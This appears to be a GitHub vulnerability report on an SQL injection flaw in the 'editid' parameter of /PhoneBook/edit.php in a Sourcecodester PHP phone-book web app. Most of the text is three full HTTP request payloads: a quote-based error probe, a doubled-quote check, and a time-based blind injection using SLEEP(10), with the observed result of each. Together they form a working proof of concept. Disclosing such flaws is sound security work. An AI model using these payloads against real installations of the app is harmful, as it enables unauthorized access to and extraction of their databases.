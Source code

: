 # Simple Phone book/directory Web App v1.0 by bakhtiar has SQL injection

BUG_Author: realguoxiufeng

vendors:https://www.sourcecodester.com/php/13011/phone-bookphone-directory.html

Vulnerability File: /PhoneBook/edit.php

GET parameter 'editid' exists SQL injection vulnerability

Payload1: /PhoneBook/edit.php?editid=1'

```
GET /PhoneBook/edit.php?editid=1' HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=h2td7dda0p1f3dha0mjlejh9vb
Connection: close
```

sql statement error

![image](https://github.com/realguoxiufeng/pic/blob/main/err.png)

Payload2: /PhoneBook/edit.php?editid=1''

```
GET /PhoneBook/edit.php?editid=1'' HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=h2td7dda0p1f3dha0mjlejh9vb
Connection: close
```

Page successfully displayed

![image](https://github.com/realguoxiufeng/pic/blob/main/righ.png)

Payload3: /PhoneBook/edit.php?editid=1%27%20AND%20(SELECT%202%20FROM%20(SELECT(SLEEP(10)))A)--%20B

```
GET /PhoneBook/edit.php?editid=1%27%20AND%20(SELECT%202%20FROM%20(SELECT(SLEEP(10)))A)--%20B HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=h2td7dda0p1f3dha0mjlejh9vb
Connection: close
```

The server's response time is 10 seconds

![image](https://github.com/realguoxiufeng/pic/blob/main/sle.png)
